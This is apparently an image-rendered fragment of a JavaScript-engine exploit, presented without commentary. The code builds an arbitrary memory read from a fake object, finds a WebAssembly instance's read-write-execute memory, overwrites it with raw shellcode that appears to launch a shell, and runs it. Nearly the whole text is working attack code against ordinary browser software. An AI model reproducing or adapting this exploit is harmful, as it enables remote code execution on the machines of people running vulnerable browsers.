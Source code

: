 ```javascript
function arb_read(addr) {
  evil_float_array[2] = helper.i64tof64((addr - 0x10n) | 1n);
  return helper.f64toi64(fake_obj[0]);
}

let data_buf = new ArrayBuffer(0x1000);
let data_view = new DataView(data_buf);
let buf_backing_store_addr = get_addr(data_buf) + 0x20n;

console.log("STEP 3 - Write shellcode to wasm_instance's rwx memory.");

let exp = () => {
  let wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3,
    130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131,
    128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128,
    128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0,
    0, 10, 142, 128, 128, 128, 0, 1, 136, 128, 128, 128, 0, 0, 65, 239, 253,
    182, 245, 125, 11,
  ]);
  let wasm_module = new WebAssembly.Module(wasm_code);
  let wasm_instance = new WebAssembly.Instance(wasm_module);
  let func = wasm_instance.exports.main;
  let wasm_instance_addr = get_addr(wasm_instance);
  let func_addr = get_addr(func);
  // %DebugPrint(wasm_instance);
  // %DebugPrint(func);
  // %SystemBreak();

  let rwx_addr = arb_read(wasm_instance_addr + 0x88n);
  helper.printhex(rwx_addr);
  // %SystemBreak();

  let shellcode = [
    0x10101010101b848n,
    0x68632eb848500101n,
    0x431480169722e6fn,
    0xf631d231e7894824n,
    0x50f583b6an,
  ];

  arb_write(buf_backing_store_addr, rwx_addr);
  for (let i = 0; i < shellcode.length; i++) {
    data_view.setBigInt64(i * 8, shellcode[i], true);
  }

  func();
};

exp();
```

